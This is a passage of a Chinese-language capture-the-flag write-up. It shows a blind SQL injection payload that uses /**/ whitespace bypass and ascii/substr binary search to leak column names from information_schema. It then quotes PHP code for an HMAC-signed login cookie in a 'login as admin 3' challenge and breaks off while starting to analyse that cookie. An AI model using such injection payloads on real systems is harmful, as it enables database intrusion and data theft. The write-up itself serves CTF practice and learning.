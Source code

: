 `/**/or/**/(ascii(substr((SELECT/**/column_name/**/FROM/**/information_schema.columns/**/WHERE/**/table_schema=database()/**/AND/**/table_name=0x3062646235346339383132336635353236636361656439383264323030366139/**/limit/**/0,1),{index},1)))>{mid}/**/limit/**/1,1/**/#`
- 結果後來發現其實沒檔雙引號，所以可以直接用原字串就好。
- 後面就都依樣用腳本 leak 出 flag，完工~

## login as admin 3
- 首先從 source code 中可以看到登入是用 JWT 在做驗證，可以看到是用 user data 跟 secret 值過 sha512 當做 Signature，然後跟 user data 再過 base64 做出 JWT。
```php=
function set_user($user_data)
{
    global $user, $secret;

    $user = [$user_data['name'], $user_data['admin']];

    $data = json_encode($user);
    $sig = hash_hmac('sha512', $data, $secret);
    $all = base64_encode(json_encode(['sig' => $sig, 'data' => $data]));
    setcookie('user', $all, time()+3600);
}
$error = null;

function load_user()
{
    global $secret, $error;

    if(empty($_COOKIE['user'])) {
        return null;
    }

    $unserialized = json_decode(base64_decode($_COOKIE['user']), true);
    $r = hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig'];

    if(hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig']) {
        $error = 'Invalid session';
        return false;
    }

    $data = json_decode($unserialized['data'], true);
    return [
        'name' => $data[0],
        'admin' => $data[1]
    ];
}

$user = load_user();

if(!empty($_POST['name']) && !empty($_POST['password'])) {
    $user = false;
    foreach($users as $u) {
        if($u['name'] === $_POST['name'] && $u['password'] === $_POST['password']) {
            set_user($u);
        }
    }
}
```
- 所以我們先用 `guest/guest` 登入，拿 server 回傳存在瀏覽器端的 cookie 值做 base64 decode，可以看到 sig 跟 data 情況。
